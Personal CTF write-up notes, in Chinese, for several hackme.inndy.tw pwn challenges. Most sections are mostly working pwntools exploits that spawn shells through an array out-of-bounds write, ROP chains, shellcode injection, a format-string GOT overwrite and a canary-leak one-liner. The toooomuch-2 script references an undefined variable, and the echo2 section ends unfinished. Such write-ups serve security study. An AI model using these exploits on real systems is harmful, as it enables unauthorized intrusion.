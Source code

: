 # hackme.inndy.tw - Notes

## homework

看提示就知道考 array 越界問題

直接看 src code 

ask_name(); 中用的是 gets(name) << buf overflow ，不過 name 是 global 且在這裡用不到

然後有一個函數 call_me_maybe() 是 system("/bin/sh")

主要問題在 run_program() 中，他定義陣列大小是十但沒有限制 edit 的 index 範圍

故整個流程就是利用 edit 功能改 run_program() 的 ret 為 call_me_maybe() 即可

用 gdb 跟一下可以知道 array[0] 的位置是 ```ebp+index*4-0x34``` 

換句話說 ret = ebp + 0x4 = 0x38 / 4 = 14 

也就是 array[14] 是 ret 的位置

```python
#!/usr/bin/env python
from pwn import *

r = remote('hackme.inndy.tw', 7701)
#r = process('/tmp/p/a')

r.sendlineafter('? ','a')
r.sendlineafter('> ','1')
r.sendlineafter(': ','14')
r.sendlineafter('? ','134514171')
r.sendlineafter('> ','0')


r.interactive()
```


## ROP

用 ida pro 看很簡單就只有兩行
```c
char buf[12];
gets(buf);
```

然後是 x86 和 static ，所以就很明顯直接解

```
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
#r = process('/tmp/p/rop')
r = remote('hackme.inndy.tw',7704)

trash = 'a'*16
pop_eax_ret = 0x080b8016
push_es_int0x80 = 0x080b6d27
pop_dcb_ret = 0x0806ed00
bss = 0x080ed000 - 0x100
mov_dedx_eax_ret = 0x0805466b

payload = [pop_eax_ret, '/bin', pop_dcb_ret, bss, 0, 0,mov_dedx_eax_ret]
payload+= [pop_eax_ret, '//sh', pop_dcb_ret, bss+4, 0, 0, mov_dedx_eax_ret]
payload+= [pop_eax_ret, 0xb, pop_dcb_ret, 0, 0, bss, push_es_int0x80]

r.sendline(trash + flat(payload))
r.interactive()
```

## ROP2

這題改用 dynamic ，不過裡面有一個 syscall 

所以只要呼叫 syscall(0xb, '/bin/sh', 0, 0) 即可


```python 
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
#r = process('/tmp/p/rop2')
r = remote('hackme.inndy.tw', 7703)

trash = 'a'*16
syscall = 0x08048320
pop4_ret = 0x08048578
pop_deax_ret = 0x0804844e
pop_adc_ret = 0x0804843e
bss = 0x804a020 + 0x300
payload = [pop_adc_ret, bss, 0, 0, pop_deax_ret, '/bin', pop_adc_ret, bss+4, 0, 0]
payload+= [pop_deax_ret, '//sh', syscall, 0, 0xb, bss, 0, 0]

r.sendline(trash + flat(payload))

r.interactive()
```

## toooomuch

程式一開始會要你輸入 passcode ，可以用 gdb 跟一下

```
gdb-peda$ disass check_passcode
Dump of assembler code for function check_passcode:
   0x08048751 <+0>:     push   ebp
   0x08048752 <+1>:     mov    ebp,esp
   0x08048754 <+3>:     sub    esp,0x18
   0x08048757 <+6>:     sub    esp,0xc
   0x0804875a <+9>:     push   0x8049c60
   0x0804875f <+14>:    call   0x8048520 <atoi@plt>
   0x08048764 <+19>:    add    esp,0x10
   0x08048767 <+22>:    add    eax,0x3039
   0x0804876c <+27>:    mov    DWORD PTR [ebp-0xc],eax
   0x0804876f <+30>:    cmp    DWORD PTR [ebp-0xc],0xd903
   0x08048776 <+37>:    sete   al
   0x08048779 <+40>:    movzx  eax,al
   0x0804877c <+43>:    leave
   0x0804877d <+44>:    ret
End of assembler dump.
```

就是會把我們輸入的 加上0x3039 ，要等於 0xd903

所以要輸入 43210，之後就是 0 ~ 100 猜數字，用二分搜尋即可

```
#!/usr/bin/env python
from pwn import *

r = remote('hackme.inndy.tw', 7702)

r.sendlineafter(': ','43210')
r.sendlineafter(': ','50')
high = 100
low = 0
m = 50
while True:
	rev = r.recvline()
	print repr(rev)
	if rev == 'More please\n':
		low = m 
		m = (high + low) / 2
		r.sendlineafter(': ',str(m))
	elif rev == 'Toooomuch\n':
		high = m 
		m = (high + low) / 2
		r.sendlineafter(': ',str(m))
	else:
		break		
r.interactive()
```

## toooomuch-2

這題要拿 shell，保護沒開 ，然後題目提示 0x8048560

考觀念 hlt - 1 = jmp esp (僅適用在 x86)

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('/tmp/p/a')

push_esp = 0x8048560
trash = 'a'*28
r.sendline(trash + p32(jmp_esp) + asm(shellcraft.sh()))

r.interactive()
```

## echo

這題就是很經典的 format string vuln ，然後也是最基本的練習題

先用 aaaa-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x 這樣算多少

之後先利用 %s 來 leak system@got 中的 system 位址，然後改 printf@got 為 system_addr

這樣之後 printf(buf) 實際等於 system(buf)

```python
#!/usr/bin/env python
from pwn import *

context.arch = 'i386'
#r = process('/tmp/p/a')
r = remote('hackme.inndy.tw', 7711)
system_got = 0x804a018
printf_got = 0x804a010

r.sendline(p32(system_got) + '%7$s')

system_addr = u32(r.recv()[4:8])
print "addr: ",hex(system_addr)

pay = fmtstr_payload(7, {printf_got: system_addr})
print "payload: ",repr(pay)

r.sendline(pay)

r.interactive()

```

## smashthestack

先看保護

```
$ checksec --file ./a
[*] '/tmp/p/a'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

之後 ida pro 看，本地測試下需要先自行開一個檔名:flag ，然後裡面的內容要比 31 長才可以

之後她會讓你輸入一個 buf ，可以 overflow 然後觸發 stackguard

只要把 flag 的位址蓋到 argv[0] ，然後觸發 ```__stack_chk_fail()``` 就可以

我這邊就直接暴力，而不去算他位址了

直接一行解
```
$ python -c 'from pwn import * ; print p32(0x804a060)*50' | nc hackme.inndy.tw 7717
```


## echo2

x64 ，先看有哪些保護
```
[*] '/tmp/p/a'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```





